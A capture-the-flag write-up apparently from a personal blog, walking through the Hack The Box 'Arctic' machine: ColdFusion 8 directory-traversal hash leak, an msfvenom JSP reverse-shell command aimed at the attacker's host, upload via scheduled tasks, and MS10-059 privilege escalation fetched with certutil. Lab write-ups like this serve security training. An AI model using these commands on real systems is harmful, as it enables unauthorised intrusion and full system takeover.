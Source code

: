 ```yaml
---
title:     "Hack The Box - Arctic"
tags: [windows,easy,ms10-059]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/1.png)

We are going to pwn Arctic from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/9>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista (91%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (91%), Microsoft Windows Phone 7.5 or 8.0 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8.1 (90%), Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (90%), Microsoft Windows 7 (90%), Microsoft Windows 7 Professional or Windows 8 (90%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Nmap scan doesn't show whats in port ``8500`` so I started checking that, Which reveals a directory.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/2.png)

``/cfdocs/``<br/>
Some docs files, nothing useful.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/3.png)

``/CFIDE/``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/4.png)

Found an ``administrator`` over there and it leads to an login page. Which is ``ColdFusion8`` by Adobe.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/5.png)

Since we know the version we can start looking for exploits and I found this.

>https://www.exploit-db.com/exploits/14641

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/6.png)

I tried that payload in the url and it gave me a hash, It will be the admin's hash.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/7.png)

I used [CrackStation](https://crackstation.net/) to do this.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/8.png)

Logged in as admin `` happyday`` 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/10.png)

Now its time to get reverse shell, Under ``Debugging & Logging`` Category I found ``Scheduled Tasks``.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/11.png)


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/12.png)
It gives us an ability to download an file and store it in the box - ``Publish`` but we need to give the directory.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/13.png)

Since ColdFusion running as ``Java`` we need to create a reverse shell using ``jsp``.

> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.31 LPORT=1234 -f raw > shell.jsp

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/14.png)

We need to upload it so, I started Python HTTP server.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/15.png)
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/16.png)

Now where to store the script? I found the location of ``ColdFusion`` in ``Server Settings > Mappings``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/17.png)

Now its time to upload the shell!!
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/18.png)

Once uploaded I visited ``http://10.10.10.11:8500/CFIDE/`` is where the ``reverse shell`` is stored.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/19.png)

Started my listener and opened ``shell.jsp`` <br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/20.png)

Got User Shell and Flag!

## Privilege Escalation:

Like always when I get a shell I start with ``systeminfo`` <br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/21.png)

Where Hotfix(s): N/A which means the system is not updated so far.

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

So we can try with [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

I Copied the ``systeminfo`` output to my machine as ``systeminfo.txt`` and start WIndows_Exploit_Suggester.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/22.png)
Since there is a lot of vulnerability, I started with ``MS10-059``.Searched for exploits and found this [Windows_kernel_exploit](https://github.com/egre55/windows-kernel-exploits)
This is the one we need.
> https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri

Uploaded the executable to the box 

> certutil.exe -urlcache -split -f http://10.10.14.31:8000/Chimichurri.exe Chimichurri.exe

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/23.png)

Started my Listener and got AUTHORITY

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-arctic/24.png)











